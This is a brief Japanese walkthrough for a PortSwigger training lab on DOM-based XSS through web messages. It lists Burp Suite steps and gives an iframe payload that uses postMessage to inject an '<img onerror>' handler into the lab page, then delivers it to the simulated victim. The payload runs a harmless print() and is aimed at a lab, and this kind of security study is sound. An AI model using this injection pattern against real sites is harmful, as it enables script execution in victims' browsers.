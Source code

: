 # Web メッセージを使用した DOM XSS

次のハッキングラボを実施する  
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages  
このラボでは、単純な Web メッセージの脆弱性を示します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. エクスプロイトサーバに移動します
- 4. ボディに次の内容を入力します

```html
<iframe src="https://0a64006f0422081480467b3900800098.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"></iframe>
```

- 5. Store ボタンを押して、deliver exploit to victim ボタンを押下します
